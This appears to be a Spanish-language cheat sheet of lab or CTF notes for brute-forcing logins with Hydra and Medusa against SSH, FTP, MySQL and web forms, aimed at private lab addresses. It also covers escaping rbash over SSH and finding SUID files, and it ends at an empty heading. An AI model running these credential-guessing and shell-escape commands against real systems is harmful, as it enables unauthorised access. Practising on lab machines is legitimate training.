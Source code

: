 hydra -l <usuario> -P <ruta_a_lista_contraseñas> -s 21 -t 4 -vV 192.168.42.193 ssh

existe la posibilidad de que me conecte por ssh y esté restringido la rbash 

por ejemplo en la máquia first:

ya conectado por ssh ejecuté el comando:

find / -perm -4000 2>/dev/null

y me salió el mensaje:

-rbash: /dev/null: restringido: no se puede redirigir la salida

solución:

me conecto de la siguiente manera:

ssh pi@10.0.2.10 -t "bash --noprofile"

rockyou:

/usr/share/wordlists/rockyou.txt

metasploit
/usr/share/wordlists/metasploit/unix_passwords.txt


rutas de usuarios:
/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

/usr/share/seclists/Usernames/Names/names.txt

/usr/share/metasploit-framework/data/wordlists/unix_users.txt

[+] ataque para mysql:

hydra -l user -P /usr/share/wordlists/rockyou.txt mysql://172.17.0.2

[+] atque para ftp

hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://172.17.0.2 -t 64 -I

[+] comando para ataque a ssh con medusa:

medusa -h 172.17.0.2 -u augustus -P /usr/share/wordlists/rockyou.txt -M ssh

ssh corre en el puerto 8899

medusa -h 172.17.0.2 -u augustus -P /usr/share/wordlists/rockyou.txt -M ssh -n 8899

[+] Para un formulario:

hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/admin.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos."

con dominio:

hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/rockyou.txt realgob.dl http-post-form "/admin.php:username=^USER^&password=^PASS^:F=Usuario o contraseña incorrectos." 

con cookie y dominio:
